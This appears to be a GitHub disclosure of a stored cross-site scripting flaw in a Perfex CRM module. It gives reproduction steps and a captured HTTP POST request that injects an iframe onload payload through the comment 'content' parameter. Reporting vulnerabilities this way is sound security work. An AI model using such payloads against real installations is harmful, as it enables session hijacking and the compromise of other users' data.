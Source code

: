 # File-Sharing-module-for-Perfex-CRM-XSS

A Stored Cross-Site Scripting (XSS) vulnerability was discovered in the File Sharing module of Perfex CRM. The vulnerability exists in the `content` parameter within the Discussion section. By injecting malicious scripts into this parameter, an attacker can store the script within the application. When the content is viewed by other users, the malicious script is executed in their browsers, potentially leading to the compromise of user data, session hijacking, or other malicious actions.

# Steps to Reproduce:
* Login to the Perfex CRM system with valid credentials.
* Navigate to the following endpoint: `/admin/purchase/purchase_order/`.
* Select any Purchase Order and click on the `Discussion` tab.
* Write any comment and click on `Add Comment`.
* Capture the request using a tool like Burp Suite.
* In the captured request, locate the `content` parameter, replace its value with a malicious payload, and forward the request.

```
POST /admin/purchase/add_comment HTTP/2
Host: localhost
Cookie: _ga=GA1.1.723218010.1723958795; csrf_cookie_name=54dd532b592d3e37eb00c83fea787332; sp_session=48fef5to7od8tvb21ak5q2i34dp9vq59; _ga_2TQZW5L3GV=GS1.1.1723972977.4.1.1723972986.0.0.0
Content-Length: 89
Sec-Ch-Ua: "Chromium";v="123", "Not:A-Brand";v="8"
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Origin: https://perfexmodules.gtssolution.site
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://perfexmodules.gtssolution.site/admin/purchase/purchase_order/4
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=1, i

csrf_token_name=54dd532b592d3e37eb00c83fea787332&content=<iframe/onload=confirm("XSS")>&rel_id=4&rel_type=pur_order
```
